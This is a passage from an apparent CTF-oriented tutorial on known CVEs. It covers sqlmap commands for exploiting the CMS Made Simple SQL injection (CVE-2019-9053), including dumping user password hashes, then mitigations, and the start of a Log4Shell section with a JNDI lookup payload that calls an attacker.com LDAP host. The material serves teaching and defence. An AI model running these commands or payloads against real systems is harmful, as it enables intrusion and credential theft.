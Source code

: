 ```bash
# %2C: URL-encoded comma.
# %27: URL-encoded single quote.
```

To automate the extraction of the full database name, table names, column names, and ultimately, user credentials, attackers typically use specialized tools like `sqlmap`. `sqlmap` can automate the entire process of detecting and exploiting SQL injection vulnerabilities, including blind time-based ones.

**Example `sqlmap` command (conceptual):**

```bash
# Basic command to test for SQL injection and dump database names
sqlmap -u "http://<target_cmsms_site>/news/index.php?m1_id=1" --dbms=mysql --technique=T --batch --dbs

# To dump users and password hashes (assuming you found the database and table names)
# sqlmap -u "http://<target_cmsms_site>/news/index.php?m1_id=1" -D <database_name> -T <users_table> --dump --batch
```

**Mitigation:** To protect against CVE-2019-9053 and other SQL injection vulnerabilities:

*   **Upgrade CMS Made Simple:** Update CMS Made Simple to a patched version (2.2.10 or later).
*   **Parameterized Queries/Prepared Statements:** Always use parameterized queries or prepared statements when interacting with databases. This ensures that user input is treated as data, not as executable code, preventing SQL injection.
*   **Input Validation:** Implement strict input validation on all user-supplied data, especially in URL parameters, form fields, and headers.
*   **Principle of Least Privilege:** Configure database users with the minimum necessary privileges.
*   **Web Application Firewall (WAF):** Deploy a WAF to detect and block SQL injection attempts.
*   **Error Handling:** Avoid displaying verbose database error messages to users, as these can provide valuable information to attackers.

---



## 8. **CVE-2021-44228: Apache Log4j Remote Code Execution (Log4Shell)**

**CTF Origin:** The Log4j vulnerability, famously known as Log4Shell, became a global cybersecurity crisis in late 2021. Due to its widespread impact and ease of exploitation, it quickly became a prime candidate for CTF challenges. Numerous CTFs, including those on platforms like TryHackMe and Google CTF, recreated the Log4Shell vulnerability to allow participants to understand, exploit, and mitigate this critical flaw in a safe environment. This rapid integration into CTFs demonstrates how quickly the cybersecurity community adapts real-world threats into educational tools.

**Vulnerability Description:** CVE-2021-44228 is a critical remote code execution (RCE) vulnerability in Apache Log4j 2, a popular Java logging library. The vulnerability arises from the library's support for JNDI (Java Naming and Directory Interface) lookups in configuration, log messages, and parameters. An attacker can craft a malicious string containing a JNDI lookup (e.g., `${jndi:ldap://attacker.com/a}`) that, when logged by a vulnerable Log4j instance, causes the server to connect to an attacker-controlled LDAP server. This LDAP server can then return a malicious Java class, which the vulnerable Log4j instance downloads and executes, leading to RCE.
